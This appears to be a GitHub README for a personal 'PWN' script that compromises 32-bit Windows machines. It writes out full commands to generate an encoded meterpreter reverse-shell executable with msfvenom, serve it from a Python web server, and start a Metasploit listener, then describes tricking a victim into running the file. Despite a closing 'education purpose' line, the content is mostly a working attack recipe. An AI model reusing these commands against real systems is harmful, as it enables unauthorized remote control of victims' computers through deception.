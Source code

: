 # PWN
This section will contain scripts that I wrote to gain ownership to a machine.

|Name|Description|
|----|-----------|
|pwnWindows_x86.sh| Get a meterpreter shell from 32bit windows with evil.exe|

### pwnWindows_x86.sh
This is a script to be used in Kali linux where the tools are already preinstalled.
1. Getting own IP and port
    ```sh
    attackerip=`ifconfig eth0 | grep netmask | cut -d' ' -f10`
    attackerport=9107
    ```
    The backtick is equivalent to bash `$(...) `
    
2. Generate evil.exe
    ```sh
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=$attackerip   LPORT=$attackerport -b '\x00\x0a\x0d' -f exe --arch x86 --platform windows -e x86/shikata_ga_nai -i 5 > evil.exe
    ```
    msfvenom is a very useful payload generator and encoder.
    
3. Host evil.exe on web server
    ```sh
    gnome-terminal --tab -e "python -m SimpleHTTPServer 80"
    ```
    A very simple way to start a web server with python2.7 
    `gnome-terminal --tab` was used to open up a separate terminal tab so that I can watch the web server on a separate terminal.
    
4. start metasploit meterpreter listener
    ```sh
    msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST $attackerip; set LPORT $attackerport; run;"
    ```
    Now that the meterpreter is listening, we will need to trick the victim to download and run this malicious `evil.exe`

**This is just for education purpose, hence the obvious file naming without much trickery.**
